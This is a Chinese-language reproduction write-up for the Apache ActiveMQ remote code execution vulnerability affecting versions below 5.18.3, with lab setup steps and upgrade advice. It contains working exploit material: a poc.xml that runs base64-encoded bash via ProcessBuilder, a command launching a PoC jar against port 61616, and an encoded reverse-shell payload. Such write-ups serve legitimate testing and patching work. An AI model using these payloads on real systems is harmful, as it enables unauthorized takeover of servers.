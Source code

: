 # Apache ActiveMQ远程代码执行

# Apache ActiveMQ远程代码执行

## 漏洞描述

Apache ActiveMQ 是 Apache 软件基金会研发的一个开源消息中间件，为应用程序提供高效的、可扩展的、稳定的和安全的企业级消息通信。

当未经身份认证的攻击者访问 Apache ActiveMQ 的 61616 端口时，可通过发送恶意数据在远程服务器上执行代码，进而控制 Apache ActiveMQ 服务器。

更新日期：2023-10-25

参考链接：

- https://activemq.apache.org/activemq-5016006-release
- https://github.com/Fw-fW-fw/activemq_Throwable

## 漏洞影响

```
Apache ActiveMQ  < 5.18.3
```

## 环境搭建

在 ActiveMQ 官方下载 5.16.6 版本安装包，链接：https://activemq.apache.org/activemq-5016006-release

解压安装包，在目录 ./apache-activemq-5.16.6/bin/linux-x86-64 下以控制台模式启动，方便排查报错信息，注意使用 jdk 11：

```
./activemq console
```

![image-20231027181920007](images/image-20231027181920007.png)

访问 8161 端口管理页面：

![image-20231030090050081](images/image-20231030090050081.png)

## 漏洞复现

编写 poc.xml，托管在 8080 端口。开启 http 服务：

```
python3 -m http.server 8080
```

![image-20231027181935525](images/image-20231027181935525.png)

执行命令：

```
touch /tmp/success
-------
base64编码：dG91Y2ggL3RtcC9zdWNjZXNz
```

poc.xml（注意缩进）：

```
<beans xmlns="http://www.springframework.org/schema/beans"
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="
        http://www.springframework.org/schema/beans
        http://www.springframework.org/schema/beans/spring-beans.xsd">  
  
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg >
            <list>
                <value>bash</value>
                <value>-c</value>
		        <value>{echo,dG91Y2ggL3RtcC9zdWNjZXNz}|{base64,-d}|{bash,-i}</value>
            </list>
        </constructor-arg>
    </bean>
</beans>
```

使用 [poc](https://github.com/Fw-fW-fw/activemq_Throwable) 进行复现：

```
java -jar activemq_poc.jar 127.0.0.1 61616 http://127.0.0.1:8080/poc.xml
```

成功执行 `touch /tmp/success`：

![image-20231027181843920](images/image-20231027181843920.png)

反弹 shell 的 poc.xml：

```
<beans xmlns="http://www.springframework.org/schema/beans"
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="
        http://www.springframework.org/schema/beans
        http://www.springframework.org/schema/beans/spring-beans.xsd">  
  
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg >
            <list>
                <value>bash</value>
                <value>-c</value>
		        <value>{echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEyNy4wLjAuMS84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}</value>
                
            </list>
        </constructor-arg>
    </bean>
</beans>
```

![image-20231030083005877](images/image-20231030083005877.png)

## 修复建议

根据影响版本中的信息，排查并升级到安全版本，或直接访问参考链接获取官方更新指南。补丁下载链接：https://github.com/apache/activemq/tags

